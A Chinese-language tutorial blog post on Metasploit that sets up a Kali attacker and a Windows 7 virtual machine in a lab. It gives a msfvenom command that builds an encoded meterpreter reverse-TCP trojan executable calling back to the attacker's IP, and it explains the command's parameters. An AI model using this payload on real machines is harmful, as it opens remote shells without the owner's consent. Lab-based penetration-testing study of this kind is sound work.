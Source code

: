```yaml
---
title: metasploit渗透一条龙
date: 2016-08-06 20:42:47
tags: hack
---
```

**安全之所以让人着迷，是因为它能让你看见与往日不同的世界---ayu**

## 简单介绍metasploit
什么是metasploit，其实就是像360这样的软件，只是主攻方向与360相反，是一款开源的漏洞测试工具，将负载控制(payload)、编码器(encode)、无操作生成器(nops)和漏洞整合在一起，它集成了各种平台(android、windows、linux)下的场景漏洞和流行shellcode，windows环境下安装[metasploit](http://www.metasploit.com/)

## 攻击载荷
你想要在目标计算机上实现的“额外功能”或行为上的改变，是攻击成功后的事情，漏洞攻击程序才负责攻击，攻击成功后会启动你设置的攻击载荷，来完成我们想要完成的事

## hack开始
### 制作木马
我的运行环境是[kali系统](http://baike.baidu.com/view/804744.htm)（里面集成了300多种渗透工具），是一个非常强大的渗透操作系统，kali里面内置了metasploit

打开终端控制器，输入
```
	root@kali:~# msfconsole
```
开启msfconsole程序，成功开启时，如图：
![运行msf](http://obfs4iize.bkt.clouddn.com/%E8%BF%90%E8%A1%8Cmsf.png)

自己的实验环境是在安装了window7的虚拟机中，在cmd下用命令ipconfig查看本台虚拟机的IP地址，再在kali下用ifconfig查看IP地址，确保可以ping通，为实验打好基础运行环境。
![windwos的ip](http://obfs4iize.bkt.clouddn.com/windows%E7%9A%84ip.png)
![kali的ip](http://obfs4iize.bkt.clouddn.com/kali%E7%9A%84ip.png)
知道这些ip也是制作木马的参数

现在明确几点：
入侵者kali：ip为：192.168.88.128

被入侵这windows7：ip为：192.168.88.129

开启新的命令终端，写上
```
	root@kali:~#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.128 LPORT=22222 -b '/x00/xff' -e x86/shikata_ga_nai -f exe > /home/ayu.exe
```
![生成木马的命令](http://obfs4iize.bkt.clouddn.com/%E7%94%9F%E6%88%90%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%91%BD%E4%BB%A4.png)
**参数解释：**
-p：攻击载荷是什么 		这里是windows/meterpreter/reverse_tcp
LHOST：入侵者的IP地址
LPORT：入侵者的端口地址
-b：将'/x00/xff'在网络传输过程中去除掉，避免产生乱码
-e：表示攻击载荷的编码方式，这里选择X86/shikata_ga_nai
-f：表示要输出的文件格式可是是php，可以是exe
